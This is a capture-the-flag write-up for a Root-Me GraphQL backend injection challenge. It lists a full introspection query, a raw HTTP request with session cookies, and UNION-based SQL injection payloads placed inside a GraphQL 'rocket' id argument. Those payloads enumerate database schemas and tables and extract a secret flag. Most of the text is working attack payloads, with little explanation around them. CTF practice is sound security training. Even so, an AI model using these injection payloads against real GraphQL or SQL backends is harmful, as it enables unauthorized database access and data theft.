

# GraphQL - Backend injection

`api vuln`: 
- url: http://challenge01.root-me.org:59079/rocketql
- method: POST
- payload:
```json
{"query":"{__schema{types{name,fields{name}}}}"}
```
=> graphql injection

## step 1: use graphql introspection to get all types and fields

`{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}`

## step2: display chart
https://graphql-kit.com/graphql-voyager/



payload: 
```
POST /rocketql HTTP/1.1
Host: challenge01.root-me.org:59079
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: application/json
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://challenge01.root-me.org:59079/
Content-Type: application/json
Content-Length: 129
Origin: http://challenge01.root-me.org:59079
Connection: keep-alive
Cookie: session=.eJwlzjsOwjAMANC7ZGZIYseOe5nKv6isLZ0QdweJd4L3Lvs68zrK9jrvfJT9GWUr2KiLi9UJmXWIDSXEpcYIMzwRrUrHGDVkeS7g5DlgVHAVDDKj6EpLPaFV4BEz0XoTZ5pJjRehUm-9JoSbqDduQCJMrktn-UXuK8__ZpTPF7kvL04.ZoZwiQ.X-4TOP6p7y76Dzt0oC3xNIRk0bw; PHPSESSID=6200fd7eaac370c518010e3d72be55e2
X-PwnFox-Color: red
Priority: u=0

{"query":"{ rocket(id: \"0 UNION SELECT 2,table_name,2,2 FROM information_schema.tables  -- -\") { name, country, is_active } }"}
```

payload found schema: 
```json
"query":"{ rocket(id: \"0 UNION SELECT 2,schema_name,2,2 FROM INFORMATION_SCHEMA.schemata limit 1 offset 2-- -\") { name, country, is_active } }"
```

payload get flag:

```json
"query":"{ rocket(id: \"0 UNION SELECT 2,value,2,2 FROM secret_db.flag limit 1 offset 0-- -\") { name, country, is_active } }"
```

i wrote sol.py to enum table (uncomment to use) and column (comment to use).